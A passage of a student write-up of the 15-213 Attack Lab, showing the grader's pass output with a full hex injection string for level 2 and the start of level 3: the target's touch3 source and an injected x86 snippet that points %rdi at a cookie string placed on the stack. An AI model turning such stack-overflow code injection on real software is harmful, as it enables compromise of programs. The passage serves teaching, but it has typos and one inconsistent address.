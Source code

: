 ```txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
    user id bovik
    course  15213-f15
    lab     attacklab
    result  1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

### Phase 3

Out task if to get *ctarget* to excute the code for `touch3` rahtern than returing to `test`. And we must make it appear to `touch3`.

*ctarget* has functions `hexmatch` and `touch3`:

```cpp
int hexmatch(unsigned val, char *sval) {
    // val is cookie, 0x59b997fa
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val); // s <--- val, then s is 59b997fa
    return strncmp(sval, s, 9) === 0; // sval[0-8] == s[0-8] ?
}

void touch3(char *sval) {
    // sval in %rdi
    vlevel = 3;
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```

Similar with Level 2, we need write a x86 code to revalue `%rdi`.

And we can pass a address to `%rdi`, and in order to avoid the `random` in `hexmath`, we can put the string in `0x5561ca8`, a position above return value of getbuf.

So, first we write code stored in *inject3.s*:

```x86asm
pushq $0x4018fa
mov   $0x5561dca8, %rdi
retq
```
